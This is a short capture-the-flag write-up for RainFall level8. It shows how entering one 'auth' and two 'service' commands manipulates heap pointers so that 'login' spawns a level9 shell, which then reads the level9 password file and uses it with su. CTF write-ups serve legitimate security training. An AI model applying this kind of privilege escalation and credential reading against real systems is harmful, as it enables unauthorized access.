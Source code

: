 For this one, we tried a few things. Looking into the source code, we managed to understand that we must put `auth ` or `service` to change the value of 2 addresses.
We must provide at least one of each, otherwise it will segfault when we try to `login`.
So we tried a few things, and it works with one `auth `  followed by two `service`.

> level8@RainFall:~$ ./level8 
> (nil), (nil)
> auth  
> 0x804a008, (nil) 
> service  
> 0x804a008, 0x804a018  
> service  
> 0x804a008, 0x804a028
> login 
> $ whoami 
> level9 
> $ cat /home/user/level9/.pass 
> c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

```bash
su level9
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

